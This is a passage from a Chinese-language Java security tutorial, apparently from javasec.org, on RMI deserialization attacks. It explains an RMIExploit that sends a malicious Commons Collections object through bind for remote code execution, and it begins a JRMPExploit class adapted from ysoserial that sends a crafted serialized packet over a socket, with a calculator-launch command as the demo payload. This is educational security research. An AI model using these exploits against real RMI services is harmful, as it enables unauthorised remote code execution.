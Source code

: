 ```java
      // 执行payload
      exploit(registry, command);
   }

}
```

程序执行后将会在`RMI服务端`弹出计算器(`仅Mac系统，Windows自行修改命令为calc`)，`RMIExploit`程序执行的流程大致如下：

1. 使用`LocateRegistry.getRegistry(host, port)`创建一个`RemoteStub`对象。
2. 构建一个适用于`Apache Commons Collections`的恶意反序列化对象(使用的是`LazyMap`+`AnnotationInvocationHandler`组合方式)。
3. 使用`RemoteStub`调用`RMI服务端`的`bind`指令，并传入一个使用动态代理创建出来的`Remote`类型的恶意`AnnotationInvocationHandler`对象到`RMI服务端`。
4. `RMI服务端`接受到`bind`请求后会反序列化我们构建的恶意`Remote对象`从而触发`Apache Commons Collections`漏洞的`RCE`。

**RMI客户端端`bind`序列化：**

<img src="https://oss.javasec.org/images/image-20191231154833818.png" alt="image-20191231154833818" style="zoom:50%;" />

上图可以看到我们构建的恶意`Remote对象`会通过`RemoteCall`序列化然后通过`RemoteRef`发送到远程的`RMI服务端`。

**RMI服务端`bind`反序列化：**

<img src="https://oss.javasec.org/images/image-20191231155509069.png" alt="image-20191231155509069" style="zoom:50%;" />

具体的实现代码在：`sun.rmi.registry.RegistryImpl_Skel`类的`dispatch`方法，其中的`$param_Remote_2`就是我们`RMIExploit`传入的恶意`Remote`的序列化对象。

## RMI-JRMP反序列化漏洞

`JRMP`接口的两种常见实现方式：

1. `JRMP协议(Java Remote Message Protocol)`，`RMI`专用的`Java远程消息交换协议`。
2. `IIOP协议(Internet Inter-ORB Protocol)` ，基于 `CORBA` 实现的对象请求代理协议。

由于`RMI`数据通信大量的使用了`Java`的对象反序列化，所以在使用`RMI客户端`去攻击`RMI服务端`时需要特别小心，如果本地`RMI客户端`刚好符合反序列化攻击的利用条件，那么`RMI服务端`返回一个恶意的反序列化攻击包可能会导致我们被反向攻击。

我们可以通过和`RMI服务`端建立`Socket`连接并使用`RMI`的`JRMP`协议发送恶意的序列化包，`RMI服务端`在处理`JRMP`消息时会反序列化消息对象，从而实现`RCE`。

**JRMP客户端反序列化攻击示例代码：**

```java
package com.anbai.sec.rmi;

import sun.rmi.server.MarshalOutputStream;
import sun.rmi.transport.TransportConstants;

import java.io.DataOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.net.Socket;

import static com.anbai.sec.rmi.RMIServerTest.RMI_HOST;
import static com.anbai.sec.rmi.RMIServerTest.RMI_PORT;

/**
 * 利用RMI的JRMP协议发送恶意的序列化包攻击示例，该示例采用Socket协议发送序列化数据，不会反序列化RMI服务器端的数据，
 * 所以不用担心本地被RMI服务端通过构建恶意数据包攻击，示例程序修改自ysoserial的JRMPClient：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPClient.java
 */
public class JRMPExploit {

   public static void main(String[] args) throws IOException {
      if (args.length == 0) {
         // 如果不指定连接参数默认连接本地RMI服务
         args = new String[]{RMI_HOST, String.valueOf(RMI_PORT), "open -a Calculator.app"};
```